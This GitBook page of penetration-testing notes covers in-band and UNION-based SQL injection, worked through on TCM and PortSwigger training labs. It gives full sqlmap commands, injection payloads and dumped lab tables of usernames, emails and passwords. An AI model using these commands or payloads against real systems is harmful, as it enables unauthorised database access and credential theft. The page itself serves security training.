 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# In Band

{% hint style="info" %}
In-Band SQLi occrus when an attacker uses the same channel to both execute malicious SQL queries and retrieve the results.
{% endhint %}

## Basic Workflow

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

The web application that we need to test has a `search` field associated with the `username` parameter (Figure 1).

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_usernameParam.png" alt=""><figcaption><p>Figure 1: Using the application as intented.</p></figcaption></figure>

By fuzzing the `username` parameter using Burp Intruder's built-in SQLi wordlist, we can see that the results of a successful payload are returned within the HTTP response (Figure 2), which makes this an In Band SQLi.

<figure><img src="../../../../.gitbook/assets/web_sqli_inBand_intruder.png" alt=""><figcaption><p>Figure 2: Fuzzing the <code>username</code> parameter with built-in SQLi payloads.</p></figcaption></figure>

Since the SQLi vulnerability is confirmed, we can write the request to a file (_right-click_ > _Copy to file_) and continue testing using [`sqlmap`](../../../../tools/web/sqlmap.md).

{% tabs %}
{% tab title="Basic Info" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch
<SNIP>
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 75 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=jeremy' AND (SELECT 6462 FROM (SELECT(SLEEP(5)))zkFr) AND 'GiCb'='GiCb

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=jeremy' UNION ALL SELECT NULL,NULL,CONCAT(0x7162766271,0x534a50534a684c7153486868667a4656547777534b5257724a66486c4a506858526c6c6a51467a6d,0x71716b6a71)-- -
---
[11:57:33] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.54, PHP 7.4.33
back-end DBMS: MySQL >= 5.0.12
```
{% endcode %}
{% endtab %}

{% tab title="Current DB" %}
```bash
# enumerating the current database
$ sqlmap -r post_request.txt --batch --current-db
<SNIP>
[12:04:04] [INFO] fetching current database
current database: 'bb-labs'
```
{% endtab %}

{% tab title="Tables" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs --tables
<SNIP>

[12:07:28] [INFO] fetching tables for database: 'bb-labs'
Database: bb-labs
[14 tables]
+------------------------+
| api0x01                |
| auth0x02               |
| auth0x03               |
| c0x03                  |
| csrf0x01               |
| csrf0x02               |
| idor0x01               |
| injection0x01          |
| injection0x02          |
| injection0x03_products |
| injection0x03_users    |
| injection0x04          |
| xss0x02                |
| xss0x03                |
+------------------------+
```
{% endtab %}

{% tab title="Data" %}
{% code overflow="wrap" %}
```bash
$ sqlmap -r post_request.txt --batch -D bb-labs -T injection0x01 --dump
<SNIP>

[12:09:12] [INFO] fetching columns for table 'injection0x01' in database 'bb-labs'
[12:09:12] [INFO] fetching entries for table 'injection0x01' in database 'bb-labs'
Database: bb-labs
Table: injection0x01
[3 entries]
+---------------------+------------------+----------+
| email               | password         | username |
+---------------------+------------------+----------+
| jeremy@example.com  | jeremyspassword  | jeremy   |
| jessamy@example.com | jessamyspassword | jessamy  |
| bob@example.com     | bobspassword     | bob      |
+---------------------+------------------+----------+
```
{% endcode %}
{% endtab %}
{% endtabs %}

## UNION attack

{% hint style="info" %}
A SQLi Union attack occurs when an attacker uses the `UNION` SQL operator to combine the results of malicious queries with the results of legitimate queries, often to retrieve additional data.
{% endhint %}

> _The example below is based on PostSwigger's_ [_SQL injection UNION attack, retrieving data from other tables_](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables) _lab._

We can start testing for SQLi flaws by fuzzing the request's parameters with common SQLi payloads (Figure 3).

<figure><img src="../../../../.gitbook/assets/web_sqli_1.png" alt=""><figcaption><p>Figure 3: Fuzzing for SQLi flaws.</p></figcaption></figure>

Intruder's results indicate that the `category`parameter is vulnerable to SQLi, so the next step is to manually confirm that we can affect the response's behaviour (Figure 4).

<figure><img src="../../../../.gitbook/assets/web_sqli_2.png" alt=""><figcaption><p>Figure 4: Validating the SQLi vulnerability.</p></figcaption></figure>

Now we have discovered and validated the SQLi flaw, we can use automated tools, such as [SQLMap](../../../../tools/web/sqlmap.md), for data exfiltration (Figure 5).

{% code overflow="wrap" %}
```bash
sqlmap.py -u "https://0a7d006003157b9a803eda4300a600fd.web-security-academy.net/filter?category=Pets" --batch -v 0 -T users --dump
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/web_sqli_3.png" alt=""><figcaption><p>Figure 5: Using <code>sqlmap</code> to exfiltrate data from the <code>users</code> table.</p></figcaption></figure>
